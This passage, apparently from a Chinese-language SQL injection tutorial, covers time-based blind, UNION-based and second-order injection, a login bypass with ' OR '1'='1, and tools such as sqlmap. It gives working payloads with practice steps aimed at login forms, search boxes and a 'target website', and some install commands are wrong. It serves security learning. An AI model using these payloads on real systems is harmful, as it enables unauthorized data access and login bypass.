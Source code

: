   ```sql
  -- 示例：时间盲注
  ' AND IF(1=1, SLEEP(5), 0)--
  ```
- 实践：输入 ' AND IF(1=1, SLEEP(5), 0)-- 来延迟响应时间，观察页面加载时间。

  ```text
  在登录表单中输入 ' AND IF(1=1, SLEEP(5), 0)-- 来延迟响应时间，观察页面加载时间。
  ```

**2.3.4 UNION 基注**

- 学习 UNION 操作符的用法，如将多个 SELECT 语句的结果集合并。

  ```sql
  -- 示例：UNION 基注
  ' UNION SELECT 1,2,3--
  ```
- 实践：输入 ' UNION SELECT 1,2,3-- 来合并结果集，观察返回的额外数据。

  ```text
  在搜索功能中输入 ' UNION SELECT 1,2,3-- 来合并结果集，观察返回的额外数据。
  ```

**2.3.5 二阶段 SQL 注入**

- 理解二阶段 SQL 注入的原理，如首先注入一个恶意的 SQL 语句，然后在第二阶段执行该语句。

  ```sql
  -- 示例：二阶段 SQL 注入
  '; CREATE PROCEDURE p() BEGIN SELECT * FROM users; END; CALL p();--
  ```
- 实践：首先注入一个存储过程，然后在第二阶段执行该存储过程，观察返回的结果。

  ```text
  在评论系统中输入 '; CREATE PROCEDURE p() BEGIN SELECT * FROM users; END; CALL p();-- 来创建并执行存储过程，观察返回的结果。
  ```

### 3. 识别 SQL 注入漏洞

**3.1 手动测试方法**

- 学习手动测试 SQL 注入漏洞的方法，如输入特殊字符（单引号、双引号、分号等）来观察应用程序的响应。

  ```text
  例如，在登录表单中输入 ' OR '1'='1 来测试是否可以绕过身份验证。
  ```
- 实践：在登录表单中输入 ' OR '1'='1 来测试是否可以绕过身份验证。

  ```text
  在目标网站的登录表单中输入 ' OR '1'='1 来测试是否可以登录成功。
  ```

**3.2 自动化工具**

- 熟悉常见的 SQL 注入自动化工具，如 Sqlmap、Burp Suite、Havij 等。

  ```sh
  -- 安装 Sqlmap
  sudo apt-get install sqlmap

  -- 安装 Burp Suite
  sudo apt-get install burpsuite

  -- 安装 Havij
  sudo apt-get install havij
  ```
- 实践：使用 Sqlmap 扫描一个目标网站，查看扫描结果和注入点。
